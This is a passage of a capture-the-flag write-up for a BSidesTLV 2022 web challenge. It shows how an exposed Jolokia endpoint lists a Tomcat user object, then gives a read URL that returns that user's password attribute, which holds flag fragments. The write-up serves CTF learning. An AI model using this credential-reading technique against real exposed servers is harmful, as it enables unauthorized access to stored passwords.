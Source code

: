 ```json  
```

The ```rolename``` looks like the last part of the flag, Let's note it
```k1aNoYouCantBruteIt}```.

The second object is:  
```json  
"database=UserDatabase,type=User,username=\"BSidesTLV2022\"": {  
       "desc": "User from a user database",  
       ...  
       },  
       "attr": {  
         "username": {  
           "desc": "User name of this user",  
           "type": "java.lang.String",  
           "rw": true  
         },  
         "roles": {  
           "desc": "MBean Names of roles for this user",  
           "type": "[Ljava.lang.String;",  
           "rw": false  
         },  
         "fullName": {  
           "desc": "Full name of this user",  
           "type": "java.lang.String",  
           "rw": true  
         },  
         "modelerType": {  
           "desc": "Type of the modeled resource. Can be set only once",  
           "type": "java.lang.String",  
           "rw": false  
         },  
         "password": {  
           "desc": "Password of this user",  
           "type": "java.lang.String",  
           "rw": true  
         },  
         "groups": {  
           "desc": "MBean Names of groups this user is a member of",  
           "type": "[Ljava.lang.String;",  
           "rw": false  
         }  
       }  
   }  
```

We can see the ```password``` attribute of this object, By reading the
documentation on the following link
[https://jolokia.org/reference/pdf/jolokia-
reference.pdf](https://jolokia.org/reference/pdf/jolokia-reference.pdf) to
read the ```password``` attribute we can use the following link: [https://not-
found.ctf.bsidestlv.com/jolokia/read/Users:database=UserDatabase,type=User,username="BSidesTLV2022"/password](https://not-
found.ctf.bsidestlv.com/jolokia/read/Users:database=UserDatabase,type=User,username="BSidesTLV2022"/password)
and we get the response:  
```json  
{"timestamp":1656878898,"status":200,"request":{"mbean":"Users:database=UserDatabase,type=User,username=\"BSidesTLV2022\"","attribute":"password","type":"read"},"value":"{J0l0k1aJ0l0k1aJ0l0"}  
```
